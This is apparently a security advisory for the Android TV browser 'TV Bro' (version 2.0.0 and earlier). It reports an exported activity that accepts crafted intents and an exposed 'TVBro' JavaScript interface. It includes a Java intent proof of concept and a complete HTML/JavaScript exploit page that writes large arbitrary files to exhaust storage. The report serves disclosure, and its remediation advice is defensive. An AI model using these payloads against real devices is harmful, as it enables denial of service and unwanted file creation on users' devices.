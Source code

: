 
---

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: JavaScript Code Injection via Intent Handlers

---

#### **Summary**:
The `com.phlox.tvwebbrowser` application improperly handles external intents, potentially leading to Arbitrary Code Execution (ACE) via crafted URIs.

#### **Severity**:
🔴 High

#### **Details**:
The exposed `com.phlox.tvwebbrowser.activity.main.MainActivity` allows external applications to execute arbitrary JavaScript within its context. Specifically, a malicious app can invoke this activity with a specially crafted URI that contains JavaScript, leading to unwanted code execution.

##### Proof of Concept:

![poc](https://github.com/actuator/com.phlox.tvwebbrowser/assets/78701239/581c4577-3ee5-4277-8fe9-2109921a18ec)



```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("http://ampulicidae.com")); // any URL
startActivity(intent);
```

#### **Common Weakness Enumeration (CWE)**:
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html): Improper Control of Generation of Code ('Code Injection')

#### **Remediation Steps**:
1. **Restrict External Intent Handling**: In `AndroidManifest.xml`, ensure the `exported` attribute for the affected activity is set to `false`.
2. **URI Sanitization**: Implement a strict validation and sanitation mechanism for URIs before processing.


#### Addendum
---

The com.phlox.tvwebbrowser application exposes a JavaScript interface, namely TVBro, to its WebView component. This interface provides powerful methods that can be invoked by any web page loaded into the WebView. Such unrestricted access can lead to a variety of security risks, such as arbitrary file downloads, resource exhaustion, and potentially other undisclosed impacts.

#### Impact:

#### Resource Exhaustion:
An attacker can generate an extremely large file using the takeBlobDownloadData method which could lead to resource exhaustion and potential denial-of-service scenarios.

#### Arbitrary File Creation: 
The method allows for the creation of files with arbitrary content on the user's device without user consent.
Potential for other Exploits: Without a detailed assessment of all methods within the TVBro interface.

#### Proof of Concept:
Below is a sample payload that exploits the vulnerability by attempting to create an extremely large file:

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>TV Bro Exploit Demo</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            padding: 20px;
        }

        button {
            background-color: red;
            color: white;
            padding: 10px 20px;
            border: none;
            cursor: pointer;
        }

        #warning {
            color: red;
            font-weight: bold;
        }
    </style>
</head>

<body>

    <h1 id="warning">WARNING: Exploit Demonstration</h1>
    <p>This page demonstrates the potential risks associated with the JavaScript interface vulnerability found in the "TV Bro" application.</p>

    <h2>Exploit Details</h2>
    <p>An attacker can generate an extremely large file which can lead to resource exhaustion and potential denial-of-service scenarios on the user's device.</p>

    <button onclick="triggerExploit()">Trigger Exploit</button>

    <div id="status"></div>

    <script>
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }

        function triggerExploit() {
            const size = 500000; // payload size
            const base64Data = generateRandomBase64String(size);
            const fileName = 'exploit.txt';
            const url = 'http://ampulicidae.com'; // any URL 
            const mimeType = 'text/plain';

            if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
                document.getElementById('status').innerText = "About to invoke the interface...";
                window.TVBro.takeBlobDownloadData(base64Data, fileName, url, mimeType);
                document.getElementById('status').innerText = "Invoked the interface. Waiting for a response...";
            } else {
                document.getElementById('status').innerText = "Interface not found. Are you sure you're inside the vulnerable version of TV Bro?";
            }
        }
    </script>

</body>

</html>

```html
